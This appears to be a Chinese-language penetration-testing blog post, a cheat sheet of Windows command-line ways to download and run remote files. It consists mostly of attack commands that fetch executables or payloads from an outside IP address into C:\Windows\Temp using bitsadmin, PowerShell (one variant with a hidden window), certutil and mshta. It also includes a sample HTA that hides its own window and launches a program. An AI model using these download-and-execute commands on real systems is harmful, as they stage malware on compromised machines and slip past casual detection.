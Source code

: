 +++
date = "2018-02-06T15:12:32+08:00"
description = "在windows的终端下下载文件，在windows的终端下执行远程文件"
draft = false
tags = ["intranet"]
title = "Windows终端下载文件和执行远程文件"
topics = ["Pentest"]

+++

### 0x00 bitsadmin下载文件
win2008
```bash
bitsadmin /rawreturn /transfer getfile http://114.115.214.203/a.exe C:\Windows\Temp\a.exe
bitsadmin /rawreturn /transfer getpayload 114.115.214.203/a.zip C:\Windows\Temp\a.zip
bitsadmin /transfer myDownLoadJob /download /priority normal "http://114.115.214.203/a.exe" "C:\Windows\Temp\a.exe"
```

### 0x01 powershell下载文件
win2008
```bash
powershell (new-object System.Net.WebClient).DownloadFile("http://114.115.214.203/a.exe","C:\Windows\Temp\a.exe")

#-w hidden 下载后终端自动退出
powershell -w hidden -c (new-object System.Net.WebClient).DownloadFile("http://114.115.214.203/a.exe","C:\Windows\Temp\a.exe")
```

### 0x02 certutil下载文件
```bash
certutil -urlcache -split -f http://114.115.214.203/test.txt test.txt

certutil -urlcache -split -f http://114.115.214.203/a.exe a.exe
```

### 0x03 mshta执行远程hta
```
mshta http://114.115.214.203/payload.hta
```
payload.hta
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <script language="VBScript">
        Window.ReSizeTo 0, 0
        Window.moveTo -2000,-2000
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
        self.close
    </script>
</head>
<body>

demo

</body>
</html>
```

未完待续。。。